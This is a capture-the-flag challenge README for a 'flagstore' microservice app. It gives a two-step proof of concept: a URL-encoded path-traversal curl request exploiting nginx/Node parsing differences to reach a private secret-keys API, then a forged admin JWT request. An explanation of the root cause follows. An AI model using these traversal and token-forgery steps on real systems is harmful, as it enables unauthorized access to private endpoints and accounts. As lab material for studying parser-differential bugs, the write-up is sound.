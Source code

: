 # Description
I built flagstore using MSA!
Please verify store is secure
```sh
http://flagstore.sstf.site:8000
```

# Distribution
```sh
cd dist
./setup.sh
# flagstore.tar.gz is generated
```

# Setup
```sh
cd deploy
# copy required files from ../src
./setup.sh
cd FLAGSTORE
# deploy
docker-compose up
```

# PoC
Access private API using path traversal
```sh
curl -i -s -k 'http://flagstore.sstf.site:8000/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e'
```
Sign JWT with secret key, login as admin
```sh
curl -i -s -k -b 'jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwiaWQiOiJhZG1pbiIsImlhdCI6MTUxNjIzOTAyMn0._BTZTPaZus-NcuubXlhWyS1a5g9UllKyf7FWUu2cIic' 'http://flagstore.sstf.site:8000/api/order/orders'
```


# Intended solution

Root cause of this vulnerability is inconsistency URL parsing between nginx and node

1. In api-nginx, ngnix normalize path to match rules. As a result, bypass private API deny rule

| raw requst | parsed URL |
| - | - |
| `/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e` | `/api/user/../_secret/keys#/../..` → `/api` |

2. In api-nginx, proxy-pass rule sends raw-request path if URI(e.g. '/') is not specified 
 `/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e` is passed to gateway

3. In gateway router matching, Node `url` module doesn't decode %2f('/'), request passes gateway config rule (matching to user)

| before | after |
| - | - |
| `/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e` | `/api/user/..%2f_secret/keys%23%2f..%2f..` |

4. In gateway, all URL encoded characters are decoded as path variable, and traslate

| before | path variable | pathRewrite |
| - | - | - |
| `/api/user/..%2f_secret/keys%23%2f..%2f..` | `/api/user/../_secret/keys#/../..` | `/user/../_secret/keys#/../..` |

5. In gateway proxy, node `url` module normalize path to send request

| before | after |
| - | - |
| `/user/../_secret/keys#/../..` | `/_secret/keys`

6. ms-nginx dispatches request to private API `/_secret/keys`


